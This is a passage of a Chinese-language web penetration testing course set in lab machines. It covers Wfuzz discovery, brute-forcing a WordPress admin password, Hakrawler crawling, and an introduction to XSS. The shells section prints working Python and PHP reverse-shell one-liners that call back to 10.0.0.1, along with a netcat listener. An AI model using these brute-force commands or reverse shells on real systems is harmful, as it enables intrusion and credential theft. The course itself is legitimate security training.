        -c                        : Output with colors
        -v                        : Verbose information.
        -f filename,printer       : Store results in the output file using the specified printer (raw printer if omitted).
        -o printer                : Show results using the specified printer.
        --interact                : (beta) If selected,all key presses are captured. This allows you to interact with the program.
        --dry-run                 : Print the results of applying the requests without actually making any HTTP request.
        --prev                    : Print the previous HTTP requests (only when using payloads generating fuzzresults)
        --efield <expr>           : Show the specified language expression together with the current payload. Repeat for various fields.
        --field <expr>            : Do not show the payload but only the specified language expression. Repeat for various fields.
. . .

```

**代码清单 24 - Wfuzz 中可用的选项**

让我们介绍其中几个选项，并回顾一些在我们的 WordPress 实验室机器 (`http://offsecwp`) 上使用 Wfuzz 的示例。

稍后当我们导出 URL 环境变量 (environment variable) 时，Wfuzz 将通过迭代我们提供的字典来替换 HTTP 请求中的 `FUZZ`（或 `FUZ2Z`、`FUZ3Z` 等）关键字。被替换的关键字可以位于请求中的任何位置，包括 URL、参数、header（请求头）或 body（请求体）。

接下来，我们将像使用 Gobuster 一样，使用 Wfuzz 来发现目录和文件。然后，我们将利用它进行更高级的模糊测试。

在本节中，我们将练习在在线门户 (Online Portal) 中提供的 WordPress 实验室机器上使用 Wfuzz 进行文件发现 (file discovery)。在启动任何模糊测试尝试之前，我们需要使用如下所示的命令确保在终端中正确设置了我们的 URL 环境变量。在对文件进行模糊测试时，我们应注意不要指定尾部正斜杠 (trailing forward slash, `/`)。尾部正斜杠仅在搜索目录时使用。

```bash
kali@kali:~$ export URL="http://offsecwp:80/FUZZ"
                                                                                     
kali@kali:~$ echo $URL                        
http://offsecwp:80/FUZZ
```

**代码清单 25 - 为 Wfuzz 配置我们的环境变量**

导出环境变量后，让我们开始对 Web 根目录 (web root) 中的一些文件进行模糊测试。我们将使用 `-c` 运行 `wfuzz` 以显示彩色输出，使用 `-z file` 指定输入源，并使用 `--hc` 避免不存在和错误的响应。

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/FUZZ
Total requests: 17128

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000028:   200        100 L    450 W      6798 Ch     "wp-login.php"
000000001:   301        0 L      0 W        0 Ch        "index.php"         
000000005:   405        0 L      6 W        42 Ch       "xmlrpc.php"        
000000122:   200        97 L     823 W      7345 Ch     "readme.html"        
000000198:   200        384 L    3177 W     19915 Ch    "license.txt"      
000000255:   200        0 L      0 W        0 Ch        "wp-config.php"   
000000289:   200        4 L      15 W       135 Ch      "wp-trackback.php"    
000000369:   500        0 L      0 W        0 Ch        "wp-settings.php"
000000371:   301        0 L      0 W        0 Ch        "."        
000000405:   200        0 L      0 W        0 Ch        "wp-cron.php" 
000000440:   200        0 L      0 W        0 Ch        "wp-blog-header.php"  
000000454:   200        11 L     23 W       221 Ch      "wp-links-opml.php"
000000830:   200        0 L      0 W        0 Ch        "wp-load.php"      
000001065:   302        0 L      0 W        0 Ch        "wp-signup.php"
000001499:   302        0 L      0 W        0 Ch        "wp-activate.php"                                                                                                 
Total time: 0
Processed Requests: 17128
Filtered Requests: 17113
Requests/sec.: 0

```

**代码清单 26 - 在我们的 URL 上对文件进行模糊测试**

几分钟后，我们的扫描将完成，我们将注意到已发现的文件。我们还发现了 `wp-login.php`，这是我们在前面的部分中使用 Burp Suite 的拦截 (Intercept) 和重放器 (Repeater) 识别出的文件。此外，我们没有发现目录的原因有两个。

首先，我们没有发现目录是因为在进行模糊测试时，我们没有在环境变量中添加尾部正斜杠。其次，我们指定了用于文件 (files) 而不是目录 (directories) 的正确字典。这意味着我们的输出显示了在 Web 根目录中找到了哪些文件。

在某些情况下，被称为 `mod_rewrite`[^mod_rewrite] 的配置项未启用，因此，我们使用尾部正斜杠的方法可能不起作用。

我们将在下一节中更详细地介绍目录发现，同时进一步讨论尾部正斜杠以及 SecLists 的正确用法。如果执行得当，Wfuzz 在枚举 (enumeration) 的早期阶段对目录和文件发现都会非常有帮助。

要使用 Wfuzz 查找目录，让我们使用尾部正斜杠重新导出环境变量。我们还将更新在 Wfuzz 命令中使用的列表，从 `raft-medium-files.txt` 更改为 `raft-medium-directories.txt`。

```bash
kali@kali:~$ export URL="http://offsecwp:80/FUZZ/"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/FUZZ/
Total requests: 30000

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================
000000013:   200        0 L      0 W        0 Ch        "wp-content"
000000020:   302        0 L      0 W        0 Ch        "wp-admin"  

Total time: 0
Processed Requests: 29990
Filtered Requests: 29987
Requests/sec.: 0

```

**代码清单 27 - 使用 Wfuzz 进行目录发现**

因为我们指定了尾部正斜杠，所以我们收到了 Web 根目录中存在的相应目录和响应代码 (response codes)。我们还收到了 `/wp-content` 的 200 OK 响应和 `/wp-admin` 的 302 FOUND 响应。

在下一节中，我们将讨论使用 Wfuzz 进行参数发现 (Parameter Discovery)。

在 Web 应用程序枚举阶段的早期，遇到返回 200 OK 响应的文件并不罕见。对于目标 Web 服务器上存在且具有访问权限的远程文件来说，这是正常的、预期的响应。然而，我们应该注意一个重要的相关学习模块——参数发现 (Parameter Discovery)。

让我们设想一个场景：一个组织的 Web 开发人员创建了一个准备进行安全测试的应用程序。在这个阶段，我们通常会执行一些渗透测试 (penetration testing)，以确保 Web 应用程序中没有可以被恶意利用的隐藏参数 (hidden parameters)。这些参数可能会导致无意的面向公众的功能，因此我们需要确保不存在此类参数。

我们设想的场景代表了一种非常典型的黑盒 (black-box) 测试方法。在现实世界的案例中，我们可能会在安全审查之前获得应用程序的源代码 (source code)——但目前，让我们假设我们没有获得源代码。我们将需要检查隐藏参数。

要执行这种类型的检查，我们需要查看 Wfuzz 的输出，寻找任何有效的响应大小 (response size) 变化，这将表明存在隐藏参数。如果没有有效的响应大小变化，我们就安全了，并且可以预期没有潜在的隐藏参数。然而，如果我们使用下面的字典尝试进行参数发现，并遇到平均响应大小的变化，那么就可能存在此类参数。

此外，我们要确保在执行参数发现时，利用我们所能获得的最佳字典。为此，我们选择了一个名为 `burp-parameter-names.txt` 的字典，其中包含大约 2,588 个可能的参数名称。

```bash
kali@kali:~$ export URL="http://offsecwp:80/index.php?FUZZ=data"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/index.php?FUZZ=data
Total requests: 2588

=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================
000000031:   200        216 L    3219 W     38443 Ch    "s"
000000051:   200        258 L    3358 W     40363 Ch    "preview"
000001169:   200        4 L      15 W       135 Ch      "tb"           
Total time: 0
Processed Requests: 2588
Filtered Requests: 2585
Requests/sec.: 0

```

**代码清单 28 - 发现隐藏参数**

我们确实发现了三个潜在的隐藏参数 (hidden parameters)。虽然这些参数在这种情况下不能直接被利用 (exploitable)，但我们仍然学习了检查端点 (endpoint) 是否存在隐藏参数所需的过程，这些参数可能被遗留下来，且不打算让最终用户交互，或者用于数据处理目的。

接下来，我们将探索对单个参数进行模糊测试 (fuzzing)，以进行初步的净化 (sanitization) 检查。

在接下来的示例中，我们将练习在目标 Web 应用程序上模糊测试单个参数值的基础知识。在这个场景中，我们将使用常见的用户名字典对 `fpv` 参数进行模糊测试。

我们将在此处使用 `/usr/share/seclists/Usernames/cirt-default-usernames.txt` 字典。在我们的 Kali Linux 虚拟机 (VM) 中，让我们将 Wfuzz 指向 `http://offsecwp:80/index.php?fpv=FUZZ` 端点。

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404 http://offsecwp:80/index.php?fpv=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/index.php?fpv=FUZZ
Total requests: 828

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000015:   301        0 L      0 W        0 Ch        "22222222"
000000035:   301        0 L      0 W        0 Ch        "APPLSYSPUB"
000000036:   301        0 L      0 W        0 Ch        "APPS"
000000034:   301        0 L      0 W        0 Ch        "APPLSYS"
000000003:   301        0 L      0 W        0 Ch        "$SRV"
000000038:   301        0 L      0 W        0 Ch        "AQ"
000000007:   301        0 L      0 W        0 Ch        "(created)"
...

```

**代码清单 29 - 识别错误的响应大小**

我们很快注意到，我们的参数值存在大量错误的响应（特别是 301 响应代码）。为了从 Wfuzz 输出中排除这些错误的响应，我们还将添加 `--hc` 选项并赋值为 301。

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/index.php?fpv=FUZZ
Total requests: 828

=====================================================================
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================
000000791:   200        0 L      1 W        12 Ch       "unix"                                   

Total time: 0
Processed Requests: 828
Filtered Requests: 827
Requests/sec.: 0

```

**代码清单 30 - 没有错误响应且结果成功的干净输出**

果然，我们发现当字典到达“unix”关键字时，`fpv` 参数返回了不同的响应代码 (200) 和大小。

在我们探讨的示例中，需要注意的是我们只提供了 `FUZZ` 关键字。如果我们有兴趣对多个参数进行模糊测试，我们可以将该参数包含在端点中，并在我们希望对第二个值进行模糊测试的地方提供 `FUZ2Z` 关键字。

在本节中，我们将讨论如何对 HTTP 请求中的 POST 数据 (POST data) 进行模糊测试。我们还将尝试通过测试 `admin` 用户，暴力破解 (brute force) 进入 WordPress 管理页面。

让我们首先拦截一些数据，以直观地演示我们感兴趣的 POST 数据参数。我们可以简单地导航到 `http://offsecwp/wp-login.php` 并在 Burp Suite 的代理 (Proxy) 选项卡下启用拦截 (Intercept) 功能。然后我们将提供一些伪造数据来演示我们的示例。



我们会观察到，我们提交给登录页面的用户名（“admin”）和密码（“letmein”）值在传输过程中被捕获；这些 POST 数据在上面突出显示。用户名的参数名称是 `log`，而密码参数是 `pwd`。当然，这是伪造的登录信息，用于提供 POST 数据的直观表示。接下来，让我们使用 Wfuzz 将目标对准 `pwd`，并尝试发现有效的用户名和密码组合。

为了开始针对我们的暴力破解攻击目标，我们将提供 `-d` 参数，以专门对下面列表中提供的端点的 POST 数据进行模糊测试。我们还需要提供诸如 `pwd=FUZZ` 之类的值才能使其正常工作。最后，我们将利用带有 404 值的 `--hc` 参数来避免错误的响应。在这种情况下，404 消息表示“未找到 (not found)”响应。

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/wp-login.php
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000013:   200        105 L    478 W      7201 Ch     "abc123"
000000012:   200        105 L    478 W      7201 Ch     "baseball"
000000010:   200        105 L    478 W      7201 Ch     "dragon"
000000011:   200        105 L    478 W      7201 Ch     "123123"
000000016:   200        105 L    478 W      7201 Ch     "letmein"
000000003:   200        105 L    478 W      7201 Ch     "12345678"
000000014:   200        105 L    478 W      7201 Ch     "football"
000000001:   200        105 L    478 W      7201 Ch     "123456"
000000007:   200        105 L    478 W      7201 Ch     "1234"
000000015:   200        105 L    478 W      7201 Ch     "monkey"
000000009:   200        105 L    478 W      7201 Ch     "1234567"
000000005:   200        105 L    478 W      7201 Ch     "123456789"
000000006:   200        105 L    478 W      7201 Ch     "12345"
000000008:   200        105 L    478 W      7201 Ch     "111111" 
...

```

**代码清单 31 - 模糊测试 POST 数据并暴力破解登录页面 PT1**

上面的输出显示我们收到了几个错误的响应大小。让我们通过提供 `--hh` 参数来隐藏 7201 字节的响应大小值以纠正此问题，从而过滤我们的结果，使得只有成功的尝试显示在我们的输出中。

```bash
kali@kali:~$ export URL="http://offsecwp:80/wp-login.php"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/wp-login.php
Total requests: 100000
=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================
000000002:   302        0 L      0 W        0 Ch        "password"  

```

**代码清单 32 - 模糊测试 POST 数据并暴力破解登录页面 PT2**

太棒了！通过对 POST 数据进行有针对性的模糊测试 (fuzzing)，我们成功找回了 admin 用户极不安全的密码“password”。

对于 POST 数据，使用经过身份验证的会话 ID (authenticated session ID) 执行模糊测试尝试可能会很有用，这样我们就可以从经过身份验证的会话的视角来观察结果。

要检索与经过身份验证的 WordPress 会话关联的 cookie，我们可以在 Burp Suite 中拦截经过身份验证的请求，复制所有的 cookie 值，然后使用 `-b` 参数将它们粘贴到我们的 Wfuzz 命令中。

我们现在已经介绍了使用 Wfuzz 所需的基础知识。本节提供的方法论在进行实验室操作时应该会很有帮助。

1. 使用我们在 WordPress 中现在有效的会话中的会话 ID，对 `offsecwp` 实验室机器中的 `http://offsecwp/wp-admin/` 端点进行模糊测试。输出的目录和文件有什么不同吗？
2. 如果有，原因可能是什么？
3. 为什么我们在作为真实用户使用真实的会话 ID 进行身份验证后，还要尝试再次进行模糊测试？

## 2.7 Hakrawler 网页爬虫工具

本学习单元涵盖以下学习目标：

- 学习什么是爬行 (crawling) 或蜘蛛 (spidering) 工具
- 了解 Hakrawler 如何与 `https://archive.org`（时光机，The Wayback Machine）协作来收集其结果

爬虫 (crawler)（有时被称为蜘蛛工具，spidering tool）会检索网页的数据并提取端点 (endpoints)，例如 JavaScript 文件、链接等等。我们通常可以为这类工具提供一个深度 (depth) 值，以指示它们在我们的 URL 或端点上应该爬取多深。

我们应该仔细理解爬行工具和目录爆破 (directory busting) 工具之间的严格区别。在目录爆破期间，来自字典 (wordlists) 的海量数据被扔向目标 Web 服务器，以发现目录、文件、参数或程序化端点。这些情况都不会在爬虫中发生，相反，爬虫会遍历目标 URL 或端点的用户界面 (user-interface) 或页面源码 (page source) 中提供的端点。

Hakrawler 碰巧有一个非常独特的功能，使其有别于大多数其他的爬行或蜘蛛工具。让我们进一步了解这个特殊的工具。

在我们安装 Hakrawler 之前，我们将确保我们的 `apt` 是最新的。为此，我们可以执行 `apt update -y` 命令。

```bash
kali@kali:~$ sudo apt update -y
[sudo] password for kali: 
. . .                  
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

```

**代码清单 33 - 更新 Apt**

现在我们已经更新了软件包列表，我们将继续进行 Hakrawler 的安装。

```bash
kali@kali:~$ sudo apt-get install -y hakrawler
. . . 
The following NEW packages will be installed:
  hakrawler
0 upgraded, 1 newly installed, 0 to remove and 1447 not upgraded.
Need to get 2,697 kB of archives.
After this operation, 8,901 kB of additional disk space will be used.
. . . 

kali@kali:~$ which hakrawler
/usr/bin/hakrawler

```

**代码清单 34 - Hakrawler 安装**

在我们的攻击机 (attacking machine) 上安装 Hakrawler 之后，我们使用 `which hakrawler` 确认其是否存在。果然，我们看到了一个二进制路径 `/usr/bin/hakrawler`。

为 `/usr/bin/hakrawler` 提供 `--help` 参数将产生以下结果：

```bash
kali@kali:~$ hakrawler --help
Usage of hakrawler:
  -d int
    	Depth to crawl. (default 2)
  -insecure
    	Disable TLS verification.
  -t int
    	Number of threads to utilise. (default 8)

```

**代码清单 35 - Hakrawler 帮助**

Hakrawler 默认使用时光机 (Wayback Machine) 并接受 URL 作为文件输入，这意味着我们只需要提供几个参数。最常用的参数是 `-d <number>`，其中的数字表示 Hakrawler 应该在其目标域上爬取的深度。

在下一节中，我们将更详细地探讨 Hakrawler 如何与 Wayback Machine 交互以提供有用的信息。

Hakrawler 的强大之处在于它能够将蜘蛛技术与 Wayback Machine 结合起来，从而为我们提供大量以前使用过或已存档的域名列表，否则这些域名将需要通过 Wfuzz 或 GoBuster 等工具进行“爆破 (busted)”。

Wayback Machine 的档案包括每个域的网页源码和视觉快照 (visual snapshots)。Hakrawler 利用了这一点，并在档案中搜索开发人员可能留下的端点。这在现实世界的参与任务 (engagements) 中非常有用，在此类任务中，我们可以使用 Wfuzz 和 GoBuster 来发现目录和文件，并结合 Hakrawler 来发现旧目录、网站先前版本等留下的痕迹。

现在我们对 Hakrawler 有了更好的理解，让我们使用一个名为 `urls.txt` 的文件，将其目标指向 `https://www.megacorpone.com/`。

在我们创建它的同一目录中使用 `cat` 命令查看存储在 `urls.txt` 中的信息。然后，我们将这些 URL 通过管道 (pipe) 传递给 Hakrawler 进行处理，并最终查看下面的输出。

```bash
kali@kali:~$ echo "https://www.megacorpone.com/" > urls.txt

kali@kali:~$ cat urls.txt |./hakrawler
https://www.megacorpone.com/index.html
https://www.megacorpone.com/index.html
https://www.megacorpone.com/about.html
https://www.megacorpone.com/contact.html
http://support.megacorpone.com
http://www.megacorpone.com/jobs.html
http://intranet.megacorpone.com
https://www.megacorpone.com/about.html
https://www.megacorpone.com/about.html
https://www.megacorpone.com/about.html
http://admin.megacorpone.com/admin/index.html
http://intranet.megacorpone.com/pear/
http://mail.megacorpone.com/menu/
http://mail2.megacorpone.com/smtp/relay/
http://siem.megacorpone.com/home/
http://support.megacorpone.com/ticket/requests/index.html
http://syslog.megacorpone.com/logs/sys/view.php
https://www.megacorpone.com/about.html
http://test.megacorpone.com/demo/index.php
http://vpn.megacorpone.com/diffie-hellman/
http://www.megacorpone.com/aboutus.html
http://www.megacorpone.com/aboutus.html
http://www.megacorpone.com/aboutus.html
http://www2.megacorpone.com/test/newsite/index.php
http://www2.megacorpone.com/test/newsite/index.php
http://www2.megacorpone.com/test/newsite/index.php
http://admin.megacorpone.com/news/today.php
...

```

**代码清单 36 - Hakrawler 在 MegaCorpOne.com 域上的示例输出**

Hakrawler 提供了大量有用的信息。本质上，无需使用域名爆破或造成沉重的流量负载，我们就成功获取了不起眼的子域名的过往记录，并扩大了我们的攻击面 (attack surface)。在执行参与任务时，我们应始终确保我们的攻击面在渗透测试的目标范围 (target scope) 内。

## 2.8 交互式 Shell

本学习单元涵盖以下学习目标：

- 涵盖 shell 的概念以及为什么我们需要它
- 学习如何确定 Web 应用程序的特定 Web 技术
- 了解如何选择正确的 shell（与 Web 技术相匹配）

无论攻击面是什么，任何网络攻击的核心目标之一都是通过 shell[29] 实现代码执行。因为我们希望在实现代码执行后与计算机系统进行最高程度的交互，所以最好的选择是使用 shell。通过 shell，我们将能够直接从命令行界面 (Command Line Interface, CLI)[30] 或终端输入我们自己的命令，底层操作系统将知道如何解释这些命令。然而，在检索到我们自己的 shell 之前，我们需要先进行初始代码执行的实验。

为此，我们将以 `http://execsandbox:80/` 为目标进行示例，这是此在线门户中提供的一个特别设计的实验室机器。在这个沙箱中，我们将利用 PHP 执行系统命令。为此，我们将使用 PHP 的原生 `passthru()` 函数。该函数允许执行代码，并且其设计方式使得输出在 Web 客户端中是干净的。因此，我们将在我们的实时执行沙箱中将 `id` 命令传递给 `passthru()` 函数，并检查下图中的结果。



如上图所示，我们可以通过 Web 技术（在本例中为 PHP）执行代码。这台特定的机器服务于一个单一的目的：通过 Web 执行代码。

如前所述，我们可以原生执行 PHP 命令，或者通过其许多系统执行函数分别执行系统操作。

在下一节中，我们将更详细地讨论什么是 Web 技术或 Web 堆栈 (web stack)。此外，我们将讨论它们在攻击 Web 层面时如何发挥重要作用。

在学习 shell，特别是那些通过 Web 层面获取的 shell 时，我们需要首先了解我们正在使用哪种 Web 技术，以便获取 shell。Web 技术代表我们管理 shell 的执行。

当我们在 Web 应用程序中执行某项操作时，我们通常会将输入发送到后端 (back end)。后端有时也被称为 Web 堆栈或解决方案堆栈 (solutions stack)[31]。Web 应用程序也通常由多种 Web 技术的组合构成。

我们有许多方法来确定 Web 服务的技术，而选择哪种方法需要随着时间和经验的积累。我们的方法包括检查扫描输出、安装/Readme/许可证文件、源代码、版权日期、文件扩展名等。这些是我们可以检查的常见位置，以发现 Web 服务器正在使用哪些类型的 Web 技术。在某些情况下，我们还可以检索版本号。

从红队 (red-team) 的角度来看，识别目标机器的 Web 技术和操作系统被认为是一项非常有用的能力。例如，如果存在 Bash，我们也许能利用它来实现反弹 shell (reverse shell)。

安全专业人员已经开发了各种各样的方法，利用 Web 技术和二进制文件来实现代码执行，并最终获得 shell。因为我们执行的每个命令都是目标机器上的一个二进制文件或可执行文件，我们将需要仔细考虑每个可能的二进制文件，看作是我们可能能够通过 Web 权限利用的东西，从而获得对机器的控制权。我们的意思是，如果我们正在执行系统命令，了解我们可以执行哪些二进制文件或命令以获得对机器的更大控制权，总是一个好主意。

在下一节中，我们将回顾如何使用这些功能，并确保我们的 payload 经过正确编码，以排除坏字符 (bad characters)。

在计算机安全中，Payload 指的是消息中旨在发送给目的地的部分[32]。在计算机病毒和蠕虫中，payload 是执行特定一组操作的恶意软件部分。

我们可以使用的一种此类 shell 被称为反弹 shell (reverse shell)。从 TCP 的角度来看，我们将作为入站流量 (inbound traffic) 接收我们的 shell。也就是说，我们将建立一个监听器 (listener) 或处理程序 (handler)（通常使用 Netcat 或 Meterpreter），它期待来自我们攻击机外部的 shell 的 TCP 连接。

在大多数情况下，要执行反弹 shell payload，我们只需要更改我们的 IP 地址和我们将要监听的端口。

在执行渗透测试服务时，我们可以将 Netcat[33] 视为我们的“瑞士军刀”。使用 Netcat，我们可以执行各种各样的操作，其中大多数超出了本课程的范围。然而，我们将使用 Netcat 执行的两种此类技术包括文件传输和建立监听器以接收传入的 shell。

例如，对于下面的每个 payload，我们将首先在我们的攻击机上的 80 端口或我们选择的任何端口上建立一个 Netcat 监听器，从而确保我们已准备好接收传入的 TCP 连接。

```bash
kali@kali:~$ nc -lvp 80            
listening on [any] 80 ...

```

**代码清单 37 - 建立 Netcat 监听器**

无论 Web 技术（PHP、ASP、JSP 等）如何，将这些类型的 shell 命令视为 payload 都是值得的。

现在我们已经在攻击机上建立了一个 Netcat 监听器，让我们在目标机器 `http://execsandbox:80/` 上使用 Python 演示一个示例 payload。

我们需要将下面命令中的 IP 地址替换为我们攻击机的 IP。

在将这个用于反弹 shell 的 payload 粘贴到易受攻击的 Web 应用程序之前，让我们先了解一下这段 Python 代码正在发生什么。

`import socket,subprocess,os;` 指示 Python 立即导入与操作系统交互并建立有效 TCP 连接所需的模块。

通过使用 `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);`，我们声明了一个名为“s”（TCP socket 的缩写）的变量，并将其值设置为我们导入的 socket 模块的主函数。

我们的 payload 分析揭示了以下内容：

```python
import socket
import subprocess
import os
import pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")

```

**代码清单 38 - 拆解 Python 反弹 shell Payload**

上面的代码连接回我们选择的 IP 地址和端口号，同时生成一个能够执行的有效的 TTY shell。

TTY[34] 代表“电传打字机 (TeleTYpewriter)”，它允许我们通过终端执行标准的输入和输出操作。在收到 shell 后，输入 `tty` 命令并确认我们是否拥有有效的 TTY（例如 `/dev/pts/0`）是一个好习惯。重要的是要认识到，我们希望拥有一个有效的 TTY，以确保在目标机器上执行操作（例如执行 payload）时，我们能够顺利进行而不会收到错误。

接下来，让我们检查一个不同的 Python 反弹 shell payload。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```

**代码清单 39 - Python 反向 Shell Payload**

当在安装了 Python 的目标机器上执行时，上面的单行代码 (one-liner) 将在端口 80 上为我们提供一个 shell。

现在让我们考虑受害者机器上运行着 PHP Web 服务器的情况。对于 PHP 代码执行，我们有几个选项可用。

我们将涵盖多种选项，因为除非应用程序需要，否则 PHP 可能已禁用大部分（如果不是全部）相关函数。在继续尝试其他方法之前，尝试所有这些方法是明智之举。

我们可以通过移除 `php -r '$sock=fsockopen("10.0.0.1",80);` 并简单地检查执行后发生的情况，来更好地理解下面的一系列单行代码 payload。在第一个示例中，`exec()`[35] 函数通过 shell 执行命令，并以字符串形式返回其输出。

类似地，使用 `system()`[36] 的 payload 也执行命令并显示其输出。在 `passthru()`[37] 示例中，我们可以执行外部程序并将输出显示为原始数据 (raw)。就像前面的 PHP 执行函数一样，`shell_exec`[38] 将通过 shell 执行命令并将完整输出作为字符串返回。

最后一个示例 payload 有点复杂 (pOpen)；然而其前提与 `exec` 相同；我们利用该函数执行命令并接收命令的输出。

```bash
php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

```

**代码清单 40 - PHP 反向 Shell Payloads**

到目前为止，我们只介绍了一些简短的 payload，以开始利用 Web 应用程序中的代码执行来获取反向 shell。

我们需要记住，在将这些类型的 payload 投递到目标 Web 服务器时，要将 URL 编码 (URL encoding) 和坏字符 (bad characters) 考虑在内。

我们还可以熟悉一下 Payload All The Things[39]，其中包含大量用于反向 shell 的 payload 列表。

最后，我们应该考虑将这些 payload 保存在我们攻击机的本地。在对时间敏感的场景中，我们能从网络上使用的任何东西都应该保存在本地以加快访问速度。考虑创建一个 Bash 别名，例如 "revshells"，用它来通过 `cat` 命令查看包含你在网上能找到的每个反向 shell payload 的有组织列表的文件。

为了对本学习单元中讨论的概念进行额外的练习，我们可以捕获在 `http://execsandbox:80/` 目标实验室机器上执行某些操作的请求，找到感兴趣的参数，并将其值更改为有效的系统级命令。通常，我们喜欢通过将 `whoami` 或 `id` 作为我们的第一个命令来观察我们拥有的特权 (privilege)；Repeater（重放器）将在这个过程中协助我们。

获取一个 shell：尝试通过 Burp Suite 发送反向 shell payload（而不是通过最终用户的 Web 界面）来获取 shell。

## 3、跨站脚本 XSS 基础与漏洞发现

在本学习模块中，我们将涵盖以下学习单元：

- 攻击性用途的 JavaScript 基础 
- 跨站脚本攻击 - 发现

跨站脚本攻击 (Cross-Site Scripting, XSS) 是一种利用用户对他们所访问网站信任的漏洞。这种信任被动态注入到用户浏览器渲染的页面中的内容所利用。XSS 将访问 Web 服务器的受害者作为目标。与许多其他 Web 应用程序漏洞不同，为了使攻击发挥作用，来访的受害者必须拥有比我们作为攻击者更广泛的权限。然而，由于需要目标用户，许多关于 XSS 的分析和解释在达到基本的概念验证 (proof-of-concept, PoC) 后就停止了。通常，这种概念验证可能会为访问该页面的任何用户打开一个警告框 (alert box)。

除了停留在概念验证阶段外，“跨站脚本攻击”这个名称也在业界引起了许多混乱。正如我们将要发现的，该漏洞利用不一定是“跨站 (cross-site)”的，也不一定涉及“脚本 (scripting)”。此类攻击更贴切的名称应该是 JavaScript 注入或 HTML 注入（当不使用 JavaScript 时）。

在本学习模块中，我们将配置我们的 Kali 机器以用于 XSS 环境学习模块。我们还将学习如何使用 XSS 沙盒 (Sandbox)，这将帮助我们了解在没有目标受害者时如何漏洞利用 XSS。

在随后的学习模块中，我们会发现除了弹出警告框之外，漏洞利用还有更多内容。我们会发现，在许多情况下，XSS 为我们提供了对目标用户浏览器可以执行、查看和访问的内容的完全访问权限。首先，我们将从讨论不同类型的 XSS 以及如何漏洞利用它们开始。接下来，我们将演示如何窃取敏感数据或对用户进行网络钓鱼 (phish)。最后，我们将通过一个案例研究来回顾真实世界中 XSS 漏洞的漏洞利用。

尽管现代浏览器已经实现了各种形式的针对 XSS 漏洞的保护，但很多时候这些保护措施是不够的（如 cookie 上的 HttpOnly 标志[40]）或者由于会导致太多问题而无法实施（如内容安全策略[41]）。

## 3.1 靶场沙箱环境介绍

本学习单元涵盖以下学习目标：

1. 了解如何使用自定义沙盒

完成本学习单元大约需要 15 分钟。

在本模块中，我们将使用两个应用程序来学习 XSS：

- **XSS Sandbox (XSS 沙盒)** - 一个自定义的沙盒应用程序，可以访问一个用户模拟器和各种存在漏洞的网站。
- **Shopizer** - 一个用 Java 编写的开源电子商务平台。

为了访问这些服务器，我们在 Kali Linux 虚拟机上创建了两个 `/etc/hosts` 文件条目。

```bash
kali@kali:~$ sudo mousepad /etc/hosts

kali@kali:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.121.101  xss-sandbox
192.168.121.102  shopizer

```

**代码清单 1 - /etc/hosts 条目**

目前，我们只需要启动下面列出的 XSS Sandbox 机器，并在开始工作之前在我们的 Kali 机器上进行相应的 IP 地址更新。我们将在本学习单元中使用此虚拟机，并在稍后的学习单元中再次使用它。

为了漏洞利用 XSS 漏洞，我们需要目标用户访问我们注入的页面。为了实现这一点，我们可以访问一个包含各种漏洞应用程序的 XSS 沙盒。让我们打开浏览器访问 `http://xss-sandbox`，并查看如何使用它来学习 XSS。



